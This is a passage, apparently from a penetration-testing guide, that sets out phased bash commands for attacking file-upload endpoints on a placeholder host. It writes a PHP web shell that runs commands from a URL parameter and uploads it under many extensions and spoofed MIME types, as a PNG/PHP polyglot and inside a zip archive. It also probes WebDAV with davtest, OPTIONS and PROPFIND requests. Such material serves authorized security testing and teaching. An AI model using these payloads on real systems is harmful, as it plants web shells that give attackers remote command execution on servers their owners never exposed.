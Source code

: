 ### Phase 2: Baseline Testing
```bash
# Test legitimate file upload first
echo "test content" > test.txt
curl -X POST -F "file=@test.txt" http://target.com/upload.php

# Test with common image file
curl -X POST -F "file=@image.jpg" http://target.com/upload.php
```

### Phase 3: Extension Testing
```bash
# Systematic extension testing
for ext in php php3 php4 php5 phtml asp aspx asa jsp jspx pl py; do
    echo "<?php system(\$_GET['cmd']); ?>" > test.$ext
    curl -X POST -F "file=@test.$ext" http://target.com/upload.php
    echo "Tested: $ext"
done
```

### Phase 4: MIME Type Testing
```bash
# Test MIME type spoofing
malicious_types=("image/jpeg" "image/png" "text/plain" "application/pdf")
for mime in "${malicious_types[@]}"; do
    curl -X POST -F "file=@shell.php;type=$mime" http://target.com/upload.php
    echo "Tested MIME: $mime"
done
```

### Phase 5: WebDAV Testing
```bash
# WebDAV capability assessment
davtest -url http://target.com/webdav/
davtest -auth username:password -url http://target.com/webdav/

# Manual WebDAV testing
curl -X OPTIONS http://target.com/webdav/
curl -X PROPFIND http://target.com/webdav/
```

### Phase 6: Advanced Bypass Testing
```bash
# Polyglot file testing
printf '\x89PNG\r\n\x1a\n<?php system($_GET["cmd"]); ?>' > polyglot.php
curl -X POST -F "file=@polyglot.php;type=image/png" http://target.com/upload.php

# Archive extraction testing
zip payload.zip shell.php
curl -X POST -F "file=@payload.zip" http://target.com/upload.php
```

---